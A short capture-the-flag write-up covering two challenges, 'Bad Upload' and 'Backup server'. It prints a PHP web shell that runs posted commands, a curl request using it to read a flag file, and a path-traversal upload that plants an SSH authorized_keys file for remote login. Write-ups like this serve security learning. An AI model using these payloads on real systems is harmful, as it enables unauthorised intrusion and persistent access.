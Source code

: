 ```yaml
---
created: 2024-06-27T07:05
updated: 2024-08-04T20:43
tags:
  - box
title: thehackerconclave
team: wwf
points: 1500
rank: 6
---
```


3 hour CTF with a bunch of typos and mis-management.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1719878953/2024/07/31175b24ee1a86c7d293bab9d120ee88.png)

Joined [@WorldWideFlags](https://ctftime.org/team/283853) on this one.

## Bad Upload

### Payload

```php
<?php
echo 'Command:';
if($_POST){
system($_POST['cmd']);
}
__halt_compiler();
?>
```

Simply edit the HTML markup, and replace one of the option values with `php`.

```shell
curl --request POST \
  --url http://ctf.thehackerconclave.es:20003/documents/payload.php \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data 'cmd=cat /flag/flag.txt'
```

## Backup server

### Generate Key

```sh
ssh-keygen
```

### Rename public key to `authorized_keys` and upload to `.ssh/`

```bash
curl --request POST \
  --url http://ctf.thehackerconclave.es:20007/index.php \
  --header 'Content-Type: multipart/form-data' \
  --form 'file=@authorized_keys' \
  --form directory=../.ssh
```

### Connect to it with private key

```shell
 ssh -i sshkey user1@ctf.thehackerconclave.es -p 20008
```
